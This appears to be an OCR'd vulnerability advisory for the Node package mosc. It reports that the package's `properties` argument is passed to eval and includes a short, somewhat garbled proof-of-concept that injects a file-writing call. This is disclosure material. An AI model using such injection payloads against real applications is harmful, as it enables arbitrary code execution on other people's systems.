 # Overview

mosc is an a simple inline object model builder for NodeJS (A small port exists for client-side javascript).

This package is vulnerable to Arbitrary Code Execution. User input provided to `properties` argument is executed by the eval function, allowing code execution.

## Proof of Concept

```
var Mosc = require("mosc")
var mosc = new Mosc({})
var key = ""
var attack*code = "fs=require('fs');fs.writeFile('FileName');"
var properties = "{a:\_1*; " attack_code " //\*}"

var mosc = mosc.parse_properties(key, properties, {}, {})
```
